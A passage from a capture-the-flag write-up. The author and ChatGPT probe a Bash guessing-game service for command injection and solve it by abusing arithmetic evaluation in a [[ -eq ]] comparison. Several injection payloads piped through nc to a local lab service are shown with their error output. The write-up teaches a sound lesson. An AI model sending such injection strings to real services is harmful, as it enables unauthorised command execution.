 ```c
}
```

ChatGPT wants me to do `strace`, but I explain I can't. It generates a few more quick tests, which fail:

```
printf '$(/readflag); exit\n' | nc 127.0.0.1 1024
printf '"; /readflag; #\n' | nc 127.0.0.1 1024
printf '"; /readflag 2>&1; echo "\n' | nc 127.0.0.1 1024
```

### Am I going to have to do the work myself? lol

With ChatGPT oneliners, most attempts fail with *syntax errors* in the Bash script:

```
$ printf '0 ) ; /readflag ; (\n' | nc 127.0.0.1 1024
Låt oss spela en gissningslek!
Varning: Du får inte ändra din gissning. :(
/app/gissningslek.sh: line 10: [[: 0 ) ; /readflag ; (: syntax error in expression (error token is ") ; /readflag ; (")
Fel
```

I have a look at the shell script `gissningslek.sh`, and see the test is with `-eq`. 

```bash
 if [[ "${1}" -eq "${rand}" ]];
  then
    echo "Rätta"
  else
    echo "Fel"
 fi
```

This gives me another idea. Now, yes, I admit my attempt is silly, and the solution is quite obvious at this point, but well, sometimes you don't see things when they're in front of your eyes...
Nevertheless, I tried this: `printf '1 -eq /readflag\n' | nc 127.0.0.1 1024`

```
$ printf '1 -eq /readflag\n' | nc 127.0.0.1 1024
Låt oss spela en gissningslek!
Varning: Du får inte ändra din gissning. :(
/app/gissningslek.sh: line 10: [[: 1 -eq /readflag: division by 0 (error token is "readflag")
Fel
```

Despite being silly, this attempt will actually lead me (and ChatGPT) to the solution. I notice that this time, I get *another error*: **division by 0**, not syntax error.

I ask ChatGPT if it inspires it. I admit I should have tried this one myself.

```
printf 'rand\n' | nc 127.0.0.1 1024
```

and that's the solution!

